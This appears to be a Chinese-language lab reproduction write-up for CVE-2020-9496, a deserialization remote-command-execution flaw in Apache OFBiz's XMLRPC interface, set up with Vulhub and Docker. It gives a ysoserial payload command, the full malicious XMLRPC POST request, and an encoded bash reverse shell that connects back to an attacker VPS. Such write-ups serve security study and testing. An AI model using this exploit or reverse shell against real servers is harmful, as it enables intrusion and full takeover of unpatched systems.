




# Apache OfBiz 反序列化命令执行漏洞 CVE-2020-9496

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其 17.12.04 版本之前的 XMLRPC 接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 17.12.01 版本：

```
docker-compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/myportal/control/main` 查看到登录页面，说明环境已启动成功。



## 漏洞复现

由于默认情况下没有报错信息，所以使用 [参考链接2](https://github.com/dwisiswant0/CVE-2020-9496) 中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 CommonsBeanutils1 来生成 Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```



将 base64 后的 payload 替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```



进入容器中，可见 `touch /tmp/awesome_poc` 已成功执行：



### 反弹 shell

要进行两遍 base64 编码：

```
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMS4xMzIvMjI1OSAwPiYx}|{base64,-d}|{bash,-i}" | base64 | tr -d "\n"
```

发送数据包，在 VPS 上监听反弹 shell：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: 172.16.10.22:8443
Cookie: OFBiz.Visitor=10103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 2401

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[Base64 Payload Here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
